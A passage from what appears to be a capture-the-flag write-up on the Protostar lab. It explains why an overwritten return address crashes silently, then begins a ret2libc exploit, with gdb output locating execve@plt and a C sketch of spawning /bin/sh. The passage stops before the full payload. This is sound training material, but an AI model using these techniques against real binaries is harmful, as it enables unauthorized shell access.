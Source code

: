 We successfully overwrote the return address, but **why don't we see any message**?

That's because our program has **no signal handler** for crashes. In `gdb`, we can see it triggers **SIGSEGV (Segmentation Fault)**. Since there's no handler, the kernel **immediately kills the process**, stopping any output before it appears.

Now, let's use the **ret2libc** technique!

First, we need to find the function to execute. In this case, `execve()` will be my choice!

```shell
(gdb) info functions @plt
All functions matching regular expression "@plt":
...
0x08048c0c  execve@plt
...
(gdb) disassemble 0x08048c0c
Dump of assembler code for function execve@plt:
0x08048c0c <execve@plt+0>:      jmp    *0x804ae0c
0x08048c12 <execve@plt+6>:      push   $0x108
0x08048c17 <execve@plt+11>:     jmp    0x80489ec
End of assembler dump.
(gdb) x/wx 0x804ae0c
0x804ae0c <_GLOBAL_OFFSET_TABLE_+144>:  0x08048c12
```

From the `execve()` man page, we see it requires **three parameters**:

![execve-man-page](/public/image/protostar-final/execve.png)

So, we'll craft our exploit to overwrite the stack just like this simple C program:

```c
void main() {
    execve("/bin/sh", 0, 0);                                                         
    // int execve(const char *filename, char *const argv[], char *const envp[]);     
    // no arguments and environment variables
}    
```
